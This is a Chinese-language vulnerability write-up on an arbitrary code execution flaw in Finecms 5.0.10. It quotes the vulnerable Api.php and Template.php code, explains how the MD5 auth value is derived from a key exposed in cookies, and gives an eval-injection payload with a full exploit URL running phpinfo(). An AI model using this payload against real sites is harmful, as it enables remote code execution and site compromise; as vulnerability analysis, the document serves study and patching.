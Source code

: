 Finecms 5.0.10 任意代码执行漏洞
===============================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

### 漏洞分析

这个漏洞的文件在`/finecms/dayrui/controllers/Api.php`的data2()

    public function data2() {
            $data = array();

            // 安全码认证
            $auth = $this->input->get('auth', true);
            if ($auth != md5(SYS_KEY)) {
                // 授权认证码不正确
                $data = array('msg' => '授权认证码不正确', 'code' => 0);
            } else {
                // 解析数据
                $cache = '';
                $param = $this->input->get('param');
                if (isset($param['cache']) && $param['cache']) {
                    $cache = md5(dr_array2string($param));
                    $data = $this->get_cache_data($cache);
                }
                if (!$data) {

                    // list数据查询
                    $data = $this->template->list_tag($param);
                    $data['code'] = $data['error'] ? 0 : 1;
                    unset($data['sql'], $data['pages']);

                    // 缓存数据
                    $cache && $this->set_cache_data($cache, $data, $param['cache']);
                }
            }

            // 接收参数
            $format = $this->input->get('format');
            $function = $this->input->get('function');
            if ($function) {
                if (!function_exists($function)) {
                    $data = array('msg' => fc_lang('自定义函数'.$function.'不存在'), 'code' => 0);
                } else {
                    $data = $function($data);
                }
            }

            // 页面输出
            if ($format == 'php') {
                print_r($data);
            } elseif ($format == 'jsonp') {
                // 自定义返回名称
                echo $this->input->get('callback', TRUE).'('.$this->callback_json($data).')';
            } else {
                // 自定义返回名称
                echo $this->callback_json($data);
            }
            exit;

        }

可以看到开头这里验证了认证码：

    // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {

授权码在`/config/system.php`

![](/Users/aresx/Documents/VulWiki/.resource/Finecms5.0.10任意代码执行漏洞/media/rId25.png)可以看到SYS\_KEY是固定的，我们可以在Cookies找到，`/finecms/dayrui/config/config.php`

![](/Users/aresx/Documents/VulWiki/.resource/Finecms5.0.10任意代码执行漏洞/media/rId26.png)

用浏览器查看Cookies可以看到KEY，但是验证用MD5，我们先把KEY加密就行了。

![](/Users/aresx/Documents/VulWiki/.resource/Finecms5.0.10任意代码执行漏洞/media/rId27.png)

直接看到这一段，调用了Template对象里面的list\_tag函数

    if (!$data) {

        // list数据查询
        $data = $this->template->list_tag($param);
        $data['code'] = $data['error'] ? 0 : 1;
        unset($data['sql'], $data['pages']);

        // 缓存数据
        $cache && $this->set_cache_data($cache, $data, $param['cache']);
    }

我们到`finecms/dayrui/libraries/Template.php`看list\_tag函数的代码,代码有点长，我抓重点的地方,这里把`param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271`的内容分为两个数组\$var、\$val，这两个数组的内容分别为

    $var=['action','name']
    $val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271']

\$cache=\_cache\_var是返回会员的信息 重点的是下面的
`@eval('$data=$cache'.$this->_get_var($_param).';');`

    foreach ($params as $t) {
                $var = substr($t, 0, strpos($t, '='));
                $val = substr($t, strpos($t, '=') + 1);

再看这一段,因为swtich选中的是cache，所有就不再进行下面的分析了。
`$pos = strpos($param['name'], '.');`这句是为下面的substr函数做准备。
是为了分离出的内容为

    $_name='MEMBER'
    $_param="1%27];phpinfo();$a=[%271"
    // action
            switch ($system['action']) {

                case 'cache': // 系统缓存数据
                    if (!isset($param['name'])) {
                        return $this->_return($system['return'], 'name参数不存在');
                    }

                    $pos = strpos($param['name'], '.');
                    if ($pos !== FALSE) {
                        $_name = substr($param['name'], 0, $pos);
                        $_param = substr($param['name'], $pos + 1);
                    } else {
                        $_name = $param['name'];
                        $_param = NULL;
                    }
                    $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                    if (!$cache) {
                        return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                    }
                    if ($_param) {
                        $data = array();
                        @eval('$data=$cache'.$this->_get_var($_param).';');
                        if (!$data) {
                            return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                        }
                    } else {
                        $data = $cache;
                    }

                    return $this->_return($system['return'], $data, '');
                    break;

跟踪get\_var函数，在这里我们先把\$param的内容假设为a,然后执行函数里面的内容，最后返回的\$string的内容是：

    $string=['a']

那么我们的思路就是把两边的\[\' \'\]闭合然后再放上恶意的代码。
payload为：`1'];phpinfo();$a=['1 `那么返回的\$string的内容：

    $string=['1'];phpinfo();$a=['1']

### 漏洞复线

    http://0-sec.org/index.php?c=api&m=data2&auth=目标站点的值&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271

![](/Users/aresx/Documents/VulWiki/.resource/Finecms5.0.10任意代码执行漏洞/media/rId29.png)
